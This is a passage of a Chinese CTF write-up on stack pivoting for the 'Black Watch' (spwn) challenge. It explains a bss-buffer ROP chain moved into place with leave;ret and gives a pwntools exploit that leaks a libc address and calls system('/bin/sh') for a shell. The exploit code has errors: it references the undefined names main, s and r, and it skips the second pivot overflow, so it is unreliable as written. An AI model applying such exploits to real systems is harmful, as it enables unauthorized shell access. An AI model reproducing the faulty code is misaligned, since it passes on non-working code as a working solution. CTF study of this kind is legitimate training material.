 ```python

io.interactive()

```

本地可以打通

![image-20220325191130246](C:/Users/%E8%94%A1%E9%9B%A8%E5%AE%B9/AppData/Roaming/Typora/typora-user-images/image-20220325191130246.png)

## 栈劫持

### Black Watch

32位，动态链接，NX打开

![image-20220325194754929](C:/Users/%E8%94%A1%E9%9B%A8%E5%AE%B9/AppData/Roaming/Typora/typora-user-images/image-20220325194754929.png)

主体在vul_function()函数中

![image-20220325200615126](C:/Users/%E8%94%A1%E9%9B%A8%E5%AE%B9/AppData/Roaming/Typora/typora-user-images/image-20220325200615126.png)

有两个read第二个在栈中写入，可以造成栈溢出，但是只能溢出8个字节的长度，也就只能写个地址，但是 s 中可以写入0x200的长度，s时bss段的变量，而且PIE没有打开，所以这题的主要思想就是可以先在 s 中构建ROP链，然后将esp和ebp移到 s 中就可以执行ROP链中的内容

![image-20220325200619537](C:/Users/%E8%94%A1%E9%9B%A8%E5%AE%B9/AppData/Roaming/Typora/typora-user-images/image-20220325200619537.png)

主要是用 leave ; ret 来对esp和ebp进行操作

代码如下

```python
from pwn import *
from LibcSearcher import *

#p=process('./spwn')
io=remote('node4.buuoj.cn',27433)
elf=ELF('./spwn')

write_plt=elf.plt['write']
write_got=elf.got['write']
main_addr=0x8048513
s_addr=0x0804A300
leave_ret=0x08048408

#第一次泄露基地址
payload=p32(write_plt)+p32(main)+p32(1)+p32(write_got)+p32(4)
io.recvuntil("What is your name?")
io.send(payload)

payload1='a'*0x18+p32(s-4)+p32(leave_ret)
io.recvuntil("What do you want to say?")
io.send(payload1)

write_addr=u32(r.recv(4))

libc=LibcSearcher('write',write_addr)
libc_base=write_addr-libc.dump('write')
system=libc_base+libc.dump('system')
sh=libc_base+libc.dump('str_bin_sh')

#第二次执行 /bin/sh
io.recvuntil("name?")
payload=p32(system)+p32(0)+p32(sh)
io.sendline(payload)

```